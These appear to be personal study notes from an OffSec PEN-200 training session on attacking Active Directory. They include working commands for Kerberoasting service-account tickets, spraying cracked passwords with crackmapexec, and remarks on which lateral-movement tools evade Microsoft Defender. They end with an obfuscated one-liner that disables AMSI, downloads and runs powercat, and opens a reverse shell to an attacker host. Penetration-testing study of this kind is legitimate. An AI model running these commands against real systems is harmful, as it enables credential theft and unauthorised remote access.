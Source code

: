 # OffSec Live: PEN-200

**author**:: Nathan Acks  
**date**:: 2022-08-26

## Active Directory Enumeration & Exploitation, Part 2

`Get-DomainUsers -SPN` will list AD service accounts using `PowerView.ps1`.

In AD, the domain controller will grant a service ticket for *any* service to *any* user. Access is enforced by the *service* machine.

Since AD tickets are encrypted using account password hashes - so if weak passwords are chosen for service accounts, tickets can be cracked to retrieve service account passwords.

There is an `Invoke-Kerberos.ps1` PowerShell module out there that does native kerberoasting from PowerShell. Output can be passed to Hashcat, among others. Be sure to set the `-Width` parameter (vixx recommends 8000) when using `Out-File` with this module, or this function won't output the entire ticket!

```powershell
Invoke-Kerberoast -OutputFormat Hashcat |
	Select-Object Hash |
	Out-File -filepath "$FILE_PATH" -Width 8000
```

SSH port forwarding is actually using SOCKS5 under the hood. This is important to know when setting up tools like `proxychains`.

There's a tool called `crackmapexec` that allows cracked passwords to be sprayed across an AD environment (available in the Kali repos). Since SMB shares are both common and often contain interesting files, this is a good service to try to gain (indiscriminate) access to. (Note that you *shouldn't* use password spraying to try to crack user passwords, as doing so will likely lead to account lockouts and subsequent alarms. Instead, use spraying to determine user access.)

```bash
crackmapexec smb $TARGET_NETWORK/$TARGET_NETMASK \
	-u $TARGER_USER -p $CRACKED_PASSWORD 2> /dev/null
```

Microsoft Defender now detects ImPacket PSEXEC and SMBEXEC execution attempts.

The SCShell fileless lateral movement tool is generally *not* detected by Microsoft Defender (at least as of this course). It does require RPC to be available on the target, though this is common in AD environments.

Powercat is a reimplementation of netcat in PowerShell. Helpful!

A one-liner to bypass AMSI and fire up a PowerShell reverse shell using Powercat:

```powershell
[REF].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true); IEX (New-Object System.Net.Webclient).DownloadString("https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1"); powercat -c $ATTACKER_IP -p $ATTACKER_PORT -e cmd.exe
```

* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
* [Join OffSec Live](https://learn.offensive-security.com/offsec-live-webinars)
* [PowerShellMafia / PowerSploit / Recon / PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [Using PowerShell](../notes/powershell.md)
* [EmpireProject / Empire / module_source / credentials / Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)
* [Kerberos](../notes/kerberos.md)
* [Using Hashcat](../notes/hashcat.md)
* [Mr-Un1k0d3r / SCShell](https://github.com/Mr-Un1k0d3r/SCShell)
* [besimorhino / powercat](https://github.com/besimorhino/powercat)

